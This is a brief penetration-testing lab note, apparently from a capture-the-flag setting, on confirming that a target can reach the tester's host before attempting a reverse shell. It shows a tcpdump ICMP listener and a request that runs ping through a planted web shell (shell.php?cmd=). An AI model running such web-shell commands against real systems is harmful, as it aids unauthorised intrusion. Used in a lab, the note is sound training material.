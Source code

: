 # Testing Connection

## Connections

Before we try to execute a reverse shell, we can first start up by checking if the target can ping our host, for this we can use tcpdump and listen on the interface that we'll be listening on:

```text
sudo tcpdump -i tun0 icmp
```

Then we may try something like the following:

```text
http://10.10.10.101/shell.php?cmd=ping -c 1 10.10.16.7
```

Finally, verify if you got any connection on the tcpdump output.

